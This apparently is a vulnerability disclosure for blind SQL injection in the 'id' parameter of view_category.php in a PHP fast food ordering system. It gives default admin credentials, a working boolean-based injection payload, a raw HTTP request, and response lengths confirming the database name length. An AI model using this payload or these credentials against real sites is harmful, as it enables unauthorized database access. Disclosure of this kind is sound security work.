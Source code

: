 # Fast Food Ordering System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15366/fast-food-ordering-system-phpoop-free-source-code.html

Vulnerability File: /ffos/admin/categories/view_category.php?id=

Vulnerability location: /ffos/admin/categories/view_category.php?id=, id

Current database name: ffos_db,length is 7

[+] Payload: /ffos/admin/categories/view_category.php?id=6%27%20and%20length(database())%20=7--+ // Leak place ---> id


```sql
GET /ffos/admin/categories/view_category.php?id=6%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=rlr2a917ahfp4mc52mm9a7kvvm
Connection: close
```

When length (database ()) = 6, Content-Length: 839
![image](https://user-images.githubusercontent.com/54017627/171350782-2324ca7e-b8e3-4282-90dc-0bf6d0f6dd9f.png)

![image](https://user-images.githubusercontent.com/54017627/171350858-df4d6823-d7d0-4554-a6c6-11a119f985f7.png)

When length (database ()) = 7, Content-Length: 737
![image](https://user-images.githubusercontent.com/54017627/171350729-07e94f74-c46b-485b-90fa-232cc131be3f.png)

![image](https://user-images.githubusercontent.com/54017627/171350831-0c11d5f2-8a72-4f28-85c0-e44430420714.png)
